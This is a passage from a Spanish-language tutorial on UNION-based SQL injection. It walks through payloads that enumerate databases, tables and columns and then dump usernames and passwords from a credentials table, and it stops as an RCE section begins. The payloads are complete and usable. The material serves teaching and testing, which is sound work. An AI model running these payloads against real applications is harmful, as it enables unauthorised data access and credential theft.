 ```sql

cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

```

Para ver la database que se está usando usaríamos la función database():

```sql

cn' UNION select 1,database(),2,3-- -

```

  

Para extraer información sobre el nombre de la tabla, debemos utilizar el siguiente payload:

```sql

cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

```

Dónde table_name guarda el nombre de las tablas, table_schema el nombre de la db al que pertenecen, information_schema.tables sería la tabla dentro de la base de datos de información y especifica que la base de datos debe ser 'dev'.

  

Una vez tenemos el nombre de las tablas, podemos intentar conseguir el de las columnas para extraer información.

```sql

cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

```

Aquí usamos column_name para extraer el nombre de la columna, table_name para saber la tabla asociada y table_schema para la base de datos que pertenencen para luego en el where especificar que solo queremos la información de la tabla con el nombre credentials.

  

Teniendo toda esta información podemos extraer ya datos. Simplemente con una query normal especificando el nombre de las columnas de las que queremos los datos y la base de datos y su tabla de dónde lo vamos a extraer.

```sql

cn' UNION select 1, username, password, 4 from dev.credentials-- -

```

### RCE
La base de datos puede ser gestionada por un usuario que tenga privilegios o no, lo más común es que tenga al menos de lectura. Lo primero que habría que hacer sería ver el usuario de la misma forma que estábamos exfiltrando información.
